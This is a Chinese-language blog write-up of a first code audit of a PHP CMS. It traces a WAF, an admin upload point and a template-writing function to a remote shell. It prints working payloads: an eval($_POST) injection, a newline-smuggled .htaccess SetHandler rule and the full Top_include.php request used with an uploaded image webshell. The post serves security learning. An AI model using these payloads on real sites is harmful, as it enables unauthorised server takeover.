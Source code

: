 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/9529)

### 前言

​ 大师傅丢给了我一个 CMS，说挺简单的，让我尝试审计看看。于是我开启了自己的第一次代码审计。这篇文章主要是讲自己写审计时的一些思路把，对于代码的分析还是比较少的。

### 工具

​ **Vscode**：用来查找内容很好评，自带的`转到定义`、`转到引用`的功能都很好用

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504162622-685e7982-acb2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504162622-685e7982-acb2-1.png)

​ **Seay 源代码审计系统**：虽然有时候在喷这个工具不好用，但是它能帮我们快速定位可能存在危险的函数，可以帮我们发现一些漏掉的东西，总体来说还行啦

### 审计

​ 在把环境装好后，先试试网站前台有啥功能，可能会存在啥漏洞。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504163325-64da9074-acb3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504163325-64da9074-acb3-1.png)

​ 访问了几个页面，都存在`ID`这个 GET 请求参数，这里可以判断可能存在 SQL 注入的漏洞，进行测试

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504162644-7592dcd8-acb2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504162644-7592dcd8-acb2-1.png)

​ 当加上单引号就被过滤了，emmmm 不幸的开始，这时候可以使用 VScode 看看它的 WAF 是啥样的，有没有机会绕过。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504162654-7becd160-acb2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504162654-7becd160-acb2-1.png)

​ 可以知道这个 WAF 的位置是在`Include/contorl.php`文件中，并且知道了它运作的原理：当存在 GET 请求参数时，它会将 GET 请求参数保存在一个数组中，并对其中的每一个参数进行正则匹配，如果存在关键字则会返回`Sorry,You do this is wrong! (.-.)`退出脚本。

​ 又在前台逛了一下，并没有发现什么特别有用的功能 (这个 WAF 过滤的太狠了)，既然如此就去后台看看吧

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504163453-990a33d6-acb3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504163453-990a33d6-acb3-1.png)

​ 登录上来就看到了上传点，是一个很好的开始。这里我先上传了一个正常的图片，然后通过查看 Burp 的内容去寻找源代码

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504162728-8fefaa52-acb2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504162728-8fefaa52-acb2-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504162740-976f221c-acb2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504162740-976f221c-acb2-1.png)

​ 主要代码应该是在`Upfile.php`这个文件中，于是我们先去看看这个文件的代码

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504162755-a02ab6fa-acb2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504162755-a02ab6fa-acb2-1.png)

​ 这里能看到网站的 logo 是可以上传 zip 文件的，这让我联想到了使用文件包含的 zip 协议的漏洞，然后我就上了`Seay`帮我看看有没有啥文件包含的漏洞

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504162807-a76dc7f4-acb2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504162807-a76dc7f4-acb2-1.png)

​ 在一众`SQL注入`和`XSS`提示中，我找到了这个可以函数开始是一个变量的地方，毕竟如果开始是写死的 (如：`file_get_contents('../'.$xxx)`) 这样的咋们也用不了 zip 协议了，我飞快的跳去看这个函数定义以及调用它的地方

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504162820-af38c434-acb2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504162820-af38c434-acb2-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504162834-b71a065e-acb2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504162834-b71a065e-acb2-1.png)

​ 从这个调用中，我们可以看到`$mblujin`是不可控，它要嘛是写死的，要嘛是从数据库中查找的。但是有另外一个变量是可控的`$mb`

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504163151-2cb3ef9c-acb3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504163151-2cb3ef9c-acb3-1.png)

​ 这三步：分别是提取模板文件的数据，将其中的`<{Template}>`内容换成`$mb`的内容，然后把它写到网站根目录下

​ 这里对于`file_get_contents`使用拼接字符串十分敏感，因为可以虚构一个不存在的文件名，然后通过`../`返回上一级。测试如下

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504163058-0d365f60-acb3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504163058-0d365f60-acb3-1.png)

​ 那这里我们可以用相同的方法，将想要的内容写进去，然后返回上一级即可。既然如此就得先看看它读的是哪里的文件

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504163133-2203c4d2-acb3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504163133-2203c4d2-acb3-1.png)

​ `index.php`是从`Templete/default/Include`读到的；`.htaccess`是从`Templete/default/Include/hta/d`读到的

​ 一开始我的想法是直接将 Shell 写到`index.php`，毕竟直接在`.php`文件的基础写肯定不会错的，看看`index.php`的源码

```
<?php
include_once  '<{dirpaths}>Include/web_inc.php';
include_once  '<{dirpaths}>Templete/<{Template}>/Include/Function.php';
$file_url="<{dirpaths}>";
include_once  '<{dirpaths}>Templete/<{Template}>/Include/default.php';
?>


```

​ 这里闭合代码的话需要闭合单引号，再将后面的内容注释掉就行啦，最后接 default 是原来模板的文件夹名。

```
Payload:index.php';eval($_POST[1]);//../default


```

​ 既然构造好了就得拿上去打了

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504163213-39a829e8-acb3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504163213-39a829e8-acb3-1.png)

​ 直接访问`Function.php`文件不行，因为这里声明了一个类对象，但是并不是在该文件定义的。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504163226-415d9f38-acb3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504163226-415d9f38-acb3-1.png)

​ 通过右键转到定义，发现它是在网站根目录下的`Include/contorl.php`文件中被定义的，而这个文件最开始就是那个 WAF 过滤。淦！也就是说我们刚才构造的 Payload 不行，因为单引号会报错退出。

​ 但是还是先得找个连接这个两个文件的 php。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504163042-03b52b10-acb3-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504163042-03b52b10-acb3-1.png)

​ 直接用搜索功能就找到了

​ 既然`index.php`文件用不了，那就转换思路，试试用`.htaccess`能不能 Getshell，还记得我们之前有一个图片上传的点，那只要将图片当作 php 文件解析即可，先看看`.htaccess`文件代码

```
RewriteEngine On
RewriteCond %{http_host} ^sem-cms.com [NC]
RewriteRule ^(.*)$ http://www.sem-cms.com/$1 [L,R=301]

<Files ~ “^.(htaccess|htpasswd)$”>
deny from all
</Files>

RewriteRule  ^product.php$  <{dirpaths}>Templete/<{Template}>/Include/product\.php
RewriteRule  ^about.php$  <{dirpaths}>Templete/<{Template}>/Include/about\.php
RewriteRule  ^contact.php$  <{dirpaths}>Templete/<{Template}>/Include/contact\.php
RewriteRule  ^download.php$  <{dirpaths}>Templete/<{Template}>/Include/download\.php
RewriteRule  ^news.php$  <{dirpaths}>Templete/<{Template}>/Include/news\.php
RewriteRule  ^info.php$  <{dirpaths}>Templete/<{Template}>/Include/info\.php
RewriteRule  ^view.php$  <{dirpaths}>Templete/<{Template}>/Include/view\.php
RewriteRule  ^search.php$  <{dirpaths}>Templete/<{Template}>/Include/search\.php
ErrorDocument 404 /Templete/<{Template}>/Include/404.html

```

​ 可以将前面的内容闭合，接着通过换行符写入我们想要的规则，最后将后面的内容使用`#`注释掉

```
Payload:index.php%0aSetHandler application/x-httpd-php%0a%23/../../default

```

​ 接着我们先上传一个图片马

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504163023-f8925172-acb2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504163023-f8925172-acb2-1.png)

​ 接着根据返回的路径试试能不能访问

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504163005-ed5d95b4-acb2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504163005-ed5d95b4-acb2-1.png)

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504162952-e5da166e-acb2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504162952-e5da166e-acb2-1.png)

​ 接着使用我们的 Payload 打一下，这里`CF=template`是因为功能点的名字 (可以看看前面的图片找到)

```
Payload:Top_include.php?CF=template&mb=index.php%0aSetHandler application/x-httpd-php%0a%23/../../default

```

​ 接着我们再次访问改图片

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210504162937-dd16066e-acb2-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210504162937-dd16066e-acb2-1.png)

​ 成功的 GetShell 了！！！

### 结语

整个审计过程，我是通过了白 + 黑的方式来看的，当看到可能存在的问题点的时候可以去看看代码，可能代码中的一些内容就会给你提示。再者就是细心吧，有些小细节还是不能放过的，像一开始当我不能利用`index.php`文件时是想放弃的，但是后来回想到了可以上传图片，又重新振作了。欢迎大家和我一起学习交流！！！